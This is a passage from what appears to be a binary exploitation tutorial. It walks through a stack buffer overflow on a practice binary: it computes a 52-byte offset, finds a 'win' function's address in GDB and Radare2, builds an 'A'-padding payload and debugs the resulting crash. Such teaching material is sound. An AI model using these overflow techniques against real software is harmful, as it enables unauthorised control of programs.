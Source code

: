 ```nasm
$ python3 -c "print(0xffffd64c-0xffffd600)"
52
```

This means that we need to write `52` bytes, and **then** we need to overwrite the return pointer. But where do we want to go? _The `win` function!_ Let's get that address:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  info functions win
All functions matching regular expression "win":

Non-debugging symbols:
0x080491a6  win
```
{% endtab %}

{% tab title="Radare2" %}
```nasm

[0x08049210]> afl | grep win
0x080491a6    1     43 sym.win
```
{% endtab %}
{% endtabs %}

Let's use Python to make this a payload:

```python
$ python3 -c "print('A' * 52 + str(0x080491a6))"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA134517158
```

And what happens when we run this?

```nasm
$ ./win32
Can you figure out how to win here?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA134517158
Segmentation fault (core dumped)
```

We... crashed. What does that mean? That means we either corrupted memory or we tried to execute memory that we weren't allowed to. Let's retry this in GDB and watch the execution:

{% tabs %}
{% tab title="GDB" %}
```nasm
[#0] Id 1, Name: "win32", stopped 0x35343331 in ?? (), reason: SINGLE STEP
```
{% endtab %}

{% tab title="Radare2" %}
```nasm
[0x35343331]> dso
ERROR: debug-step-over: Decode error at 35343331
```
{% endtab %}
{% endtabs %}
